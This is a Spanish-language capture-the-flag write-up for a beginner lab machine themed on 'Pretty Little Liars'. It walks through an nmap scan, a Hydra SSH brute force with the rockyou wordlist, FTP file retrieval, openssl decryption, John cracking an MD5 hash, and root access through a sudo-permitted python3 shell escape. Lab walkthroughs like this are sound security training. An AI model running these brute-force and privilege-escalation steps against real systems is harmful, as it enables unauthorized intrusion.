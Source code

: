 ```yaml
---
description: '✍️ Autor: beafn28🔍 Dificultad: Fácil  📅 Fecha de creación: 26/09/2024'
---
```


# Pequeñas Mentirosas

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../.gitbook/assets/imagen.png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../.gitbook/assets/imagen (2).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP**, **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../.gitbook/assets/imagen (3).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos mencione una pista y descubrimos que puede ser un usuario llamado **A** y tiene sentido ya que es un personaje de la serie de **Pequeñas Mentirosas**.&#x20;

<figure><img src="../.gitbook/assets/imagen (4).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l a -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **172.17.0.2**.

<figure><img src="../.gitbook/assets/imagen (5).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **a**. Sabiendo esto, nos conectamos a través de **FTP** al usuario con el comando:

```bash
ftp a@172.17.0.2
```

<figure><img src="../.gitbook/assets/imagen (6).png" alt=""><figcaption></figcaption></figure>

Al listar el contenido del directorio, no encontramos ningún archivo. Es importante recordar que los archivos asociados con los servidores se almacenan en el directorio `/srv`. En el caso de un servidor **FTP**, los archivos específicos que se desean compartir deben ubicarse en `/srv/ftp`. Por lo tanto, nos ubicaremos en ese directorio.

```bash
cd /srv/ftp
```

<figure><img src="../.gitbook/assets/imagen (7).png" alt=""><figcaption></figcaption></figure>

Nos descargamos a nuestro equipo esos archivos.&#x20;

```bash
mget *
```

Indagamos poco a poco nos llama la atención sobre los ficheros de texto denominados `retos`.

<figure><img src="../.gitbook/assets/imagen (8).png" alt=""><figcaption></figcaption></figure>

Sabiendo eso tenemos que desencriptar el archivo `cifrado_aes.enc` con la clave del archivo `clave_aes.txt` con el comando:

```bash
openssl enc -d -aes-128-cbc -in cifrado_aes.enc -out desencriptado_aes.txt -k thisisaverysecretkey!
```

El archivo resultante contiene:

<figure><img src="../.gitbook/assets/imagen (9).png" alt=""><figcaption></figcaption></figure>

No contiene nada relevante seguimos con el archivo `retos_asimetrico.txt` con el comando:

```bash
openssl pkeyutl -decrypt -in mensaje_rsa.enc -out desencriptado_rsa.txt -inkey clave_privada.pem
```

Pero nos vuelve a parecer el mismo resultado:

<figure><img src="../.gitbook/assets/imagen (10).png" alt=""><figcaption></figcaption></figure>

Vemos que hay un archivo `hash_spencer.txt` posiblemente **spencer** sea un usuario  por lo que a lo mejor ese **hash** es una contraseña. La podemos descifrar de dos maneras: la primera con **John** y la segunda con **Hydra** suponiendo que **spencer** es un usuario.

```bash
john --format=raw-md5 hash_spencer.txt
```

<figure><img src="../.gitbook/assets/imagen (11).png" alt=""><figcaption></figcaption></figure>

```bash
hydra -l spencer -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

<figure><img src="../.gitbook/assets/imagen (12).png" alt=""><figcaption></figcaption></figure>

```bash
ssh spencer@172.17.0.2
```

<figure><img src="../.gitbook/assets/imagen (13).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../.gitbook/assets/imagen (14).png" alt=""><figcaption></figcaption></figure>

Se ha identificado que podemos ejecutar `/usr/bin/python3` con permisos de `sudo`. Para escalar privilegios, utilizaremos [GTFObins](https://gtfobins.github.io/gtfobins/python/), que proporciona una lista de comandos que se pueden ejecutar utilizando Python.

Esto nos permitirá aprovechar el entorno de Python para ejecutar código que nos ayude a obtener acceso a niveles más altos de privilegio en el sistema.

```bash
sudo python3 -c 'import os; os.system("/bin/sh")'
```

<figure><img src="../.gitbook/assets/imagen (15).png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que hemos conseguido tener los máximos privilegios.&#x20;

> **Nota**: los demás archivos son para despistar.
